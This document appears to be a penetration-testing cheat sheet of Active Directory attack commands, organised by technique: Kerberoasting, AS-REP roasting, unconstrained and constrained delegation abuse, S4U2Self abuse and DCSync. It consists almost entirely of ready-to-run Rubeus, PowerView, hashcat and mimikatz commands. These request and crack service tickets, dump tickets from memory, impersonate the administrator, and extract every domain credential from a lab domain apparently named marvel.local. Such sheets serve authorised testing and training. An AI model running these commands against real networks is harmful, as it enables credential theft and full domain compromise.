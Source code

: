 ## Kerberoasting

### Generate TGS Ticket For Every SPN
```powershell
Rubeus.exe kerberoast /nowrap
Rubeus.exe kerberoast /user:sqlservice /nowrap
```

### Cracking
```powershell
hashcat.exe -a 0 -m 13100 hashes.txt wordlist.txt
```

## ASREP-Roasting (Kerberos PreAuth)

### Check for users who don't have kerberos preauthentication set
```powershell
Get-DomainUser -PreauthNotRequired
```

### Request TGT Ticket For All The Vulnerable Users
```powershell
Rubeus.exe asreproast /nowrap
Rubeus.exe asreproast /user:user5 /nowrap
```

### Cracking
```powershell
hashcat.exe -a 0 -m 18200 hashes.txt wordlist.txt
```

## Unconstrained Delegation

### Enumerate all servers that allow unconstrained delegation
```powershell
Get-DomainComputer -Unconstrained | select dnshostname,operatingsystem,pwdlastset
```

### Dump Domain Users TGT From Memory
```powershell
Rubeus.exe triage
Rubeus.exe dump /nowrap
Rubeus.exe dump /user:Administrator /nowrap
Rubeus.exe ptt /ticket:<TICKET-Base64>
```

### Rubeus Monitoring
```powershell
Rubeus.exe monitor /targetuser:nlamb /interval:5 /nowrap
```

## Constrained Delegation

### Find any users/computers with constrained delegation
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth | select dnshostname,msds-allowedtodelegateto
```

### Dump Computer account TGT From Memory
```powershell
Rubeus.exe triage
Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

### Request a TGS for another admin user with the computer account TGT
```powershell
Rubeus.exe s4u /impersonateuser:administrator /msdsspn:cifs/hydra-dc.marvel.local /user:machine-x$ /ticket:<TICKET-Base64> /nowrap /ptt
```

### Request a TGS for any other service also with the computer account TGT
```powershell
Rubeus.exe s4u /impersonateuser:administrator /msdsspn:cifs/hydra-dc.marvel.local /user:machine-x$ /ticket:<TICKET-Base64> /nowrap /ptt /altservice:ldap
```

### DCSync using LDAP
```powershell
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:marvel.local /all /csv" exit
```

### S4U2Self Abuse (access any service if we have computer TGT)
```powershell
Rubeus.exe s4u /impersonateuser:administrator /altservice:cifs/machine-x.marvel.local /self /user:machine-x$ /ticket:<TICKET-Base64> /nowrap /ptt
```
